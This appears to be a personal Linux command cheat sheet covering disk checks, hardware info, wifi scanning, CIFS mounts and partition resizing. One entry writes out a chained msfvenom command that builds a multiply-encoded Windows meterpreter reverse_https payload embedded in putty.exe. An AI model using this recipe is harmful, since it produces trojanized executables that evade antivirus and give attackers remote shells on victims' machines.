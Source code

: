 # Short howto

## Disk check
badblocks -v -n /dev/sda # -n for non-destruction read-write test  
smartctl -a /dev/sda

## du hidden files
du -sch .[!.]* * |sort -h

## Hardware info
dmidecode [-t memory]  
ethtool	enp0s25 	// link speed  
lsusb  
lspci  
hwinfo

## Clone web page with HTTrack
httrack --near --display --extra-log --keep-alive --tolerant --can-go-up-and-down -u2 --urlhack -T60 -R9 -O ./. 'http://'

## Scan for SSID / get info about AP
sudo iw dev wlp3s0 scan | grep SSID  
iw dev wlp1s0 [link | station dump | scan]

## Get max (not ultimate) compression with tar.xz
XZ_OPT=-9 tar cJf export.tar.xz export/

## Mount CIFS
mount -t cifs -o username=USER,domain=DOMAIN,uid=1000,gid=1000 //xxx.xxx.xxx.xxx/Files /media/fs/

## Encode payload multiply times with msfvenom
msfvenom -p windows/meterpreter/reverse_https -f raw -e x86/shikata_ga_nai -x /tmp/putty.exe -k |msfvenom -p - -a x86 --platform windows -e x86/jmp_call_additive -f raw | msfvenom -p - -a x86 --platform windows -f raw -e x86/call4_dword_xor | msfvenom -p - -a x86 --platform windows -f exe -o test_putty -e x86/shikata_ga_nai

## Resize root partition
1. fdisk  
a. list  
b. delete  
c. new with first sector exactly like on a.  
d. write  
2. resize2fs /dev/sda1

## Run nohup command with ssh
ssh -n -f user@host "sh -c 'cd /whereever; nohup ./whatever > /dev/null 2>&1 &'"

## Connect to open wifi
iwconfig wlp3s0 essid <name>  
iwconfigwlp3s0 ap any


